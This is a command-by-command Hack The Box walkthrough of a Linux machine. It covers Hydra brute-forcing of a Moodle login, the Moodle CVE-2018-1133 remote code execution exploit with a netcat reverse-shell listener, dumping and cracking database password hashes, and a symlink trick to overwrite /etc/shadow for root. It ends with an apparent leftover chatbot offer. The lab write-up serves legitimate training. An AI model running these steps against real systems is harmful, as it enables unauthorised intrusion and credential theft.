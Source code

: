 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)

## 🔎 Reconnaissance

### Full TCP Scan
```bash
nmap -sT -p- --min-rate 10000 -oA scans/nmap_alltcp 10.10.10.153
```

### Targeted Service Scan
```bash
nmap -sC -sV -p 80 -oA scans/nmap_services 10.10.10.153
```

---

## 🌐 [Web Enumeration](HTTP)

### Directory Bruteforcing with Gobuster
```bash
gobuster dir --url http://10.10.10.153 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --threads 50
```

### Discover Hidden Credential in Image
```bash
wget http://10.10.10.153/images/5.png
mv 5.png 5.txt
cat 5.txt
```

### Generate Password List (Python)
```python
#!/bin/python3
import string

partial_pass = 'Th4C00lTheacha'

for c in string.printable:
    print(partial_pass + c)
```

### Brute Force Moodle Login with Hydra
```bash
hydra -l giovanni -P passlist.txt 10.10.10.153 \
http-post-form "/moodle/login/index.php:anchor=&username=^USER^&password=^PASS^&Login=Login:Invalid login"
```

---

## 💻 Remote Code Execution (Moodle CVE-2018–1133)

### Use MoodleExploit (PHP)
```bash
php MoodleExploit.php url=10.10.10.153/moodle \
user=giovanni pass='Th4C00lTheacha#' \
ip=10.10.14.51 port=80 course=2
```

### Netcat Listener
```bash
nc -nvlp 80
```

---

## 🧬 Post Exploitation: Privilege Escalation

### 📂 Find Moodle DB Credentials
```bash
cat /var/www/html/moodle/config.php
```

### Connect to MySQL with DB creds
```bash
mysql -u root -p
# Password: Welkom1!
```

### Extract Moodle User Hashes
```sql
USE moodle;
SELECT username, password FROM mdl_user;
```

### Crack MD5 Hash with Hashcat
```bash
hashcat -m 0 hashcat.input /usr/share/wordlists/metasploit/password.lst --force
```

### Switch to giovanni User
```bash
su giovanni
# or SSH with cracked password 'expelled'
```

---

## 🚀 PrivEsc via backup.sh Logic Flaw

### 📁 Create Symlink to /etc/shadow
```bash
ln -s /etc/shadow ~/work/tmp/link
cp ~/work/tmp/link shadow.backup
```

### ✏️ Replace root hash with giovanni's
Edit `/etc/shadow` and copy giovanni’s hash to root’s line.

### Become Root
```bash
su -
# Password: expelled
```

### ✅ Restore Original Shadow File
```bash
cp ~/work/shadow.backup /etc/shadow
```

---

## 🧠 Optional: Symlink to Entire FS (Not Recommended)
```bash
ln -s / tmp/allfolders
```

---

Let me know if you'd like a downloadable Markdown file for this one or want it merged into a full HTB notes doc!